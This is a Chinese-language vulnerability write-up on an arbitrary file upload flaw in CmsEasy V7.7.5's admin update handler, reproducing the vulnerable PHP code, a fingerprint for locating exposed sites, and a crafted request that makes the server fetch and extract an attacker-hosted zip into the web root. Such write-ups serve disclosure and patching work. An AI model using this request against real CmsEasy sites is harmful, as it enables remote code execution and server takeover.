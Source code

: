 # CmsEasy update_admin.php 后台任意文件上传漏洞

## 漏洞描述

CmsEasy 后台存在任意文件上传漏洞，通过文件 service.php 加密Url参数执行即可上传任意文件

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313234956895.png)

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313234958829.png)

存在漏洞的文件为 `lib/admin/update_admin.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632745397516-acc4d6fe-182d-4a3a-87f3-8d9b8299e81d.png)

其中需要注意的代码为

```php
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

其中使用 unlockString 和 get_file 方法

```php
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632746012776-5f9a2330-5289-4b8c-81c7-6f0a3a452979.png)

写入后在上层目录写入文件，即Web根目录，创建压缩包并上传可访问的服务器上

```php
zip phpinfo.zip phpinfo.php
```

构造下载请求

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632746461754-efd8a8a5-d455-4ccd-b194-a8716a206640.png)

```php
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632746383961-7f2d63fc-2480-4604-8646-446503f857c6.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1632746435271-559c0cc2-38a7-4a8d-a24a-b6fd48180482.png)